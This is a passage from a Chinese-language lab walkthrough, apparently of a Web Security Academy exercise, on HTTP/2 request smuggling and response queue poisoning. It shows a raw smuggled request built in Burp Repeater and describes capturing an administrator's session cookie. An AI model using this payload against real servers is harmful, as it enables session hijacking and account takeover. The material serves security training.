 [![](assets/1705287960-be69b6c0f8ebc090c4bde6aef815fd28.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103958-b649f26a-b02a-1.png)  
发送的第二个请求会收到一个404响应，由此可以确认我们已经让后端将后续请求附加到走私的前缀中去

[![](assets/1705287960-5f3a61dd5f4c5ace3ed6b5444650ac9f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104010-bd430c78-b02a-1.png)  
Step 2：在Burp Repeater中构造以下请求将一个完整的请求走私到后端服务器，需要注意的是这两个请求中的路径都指向一个不存在的路径，这意味着请求将总是得到404响应，一旦我们成功毒化了响应队列，那么此时便更容易识别到成功捕获的其他用户的响应(非404响应)

```plain
POST / HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
```

[![](assets/1705287960-065ab2e9651f809c0b7ea8532b9f192a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104030-c95ab51a-b02a-1.png)  
随后我们会捕获到包含管理员新的登录后会话cookie的302响应
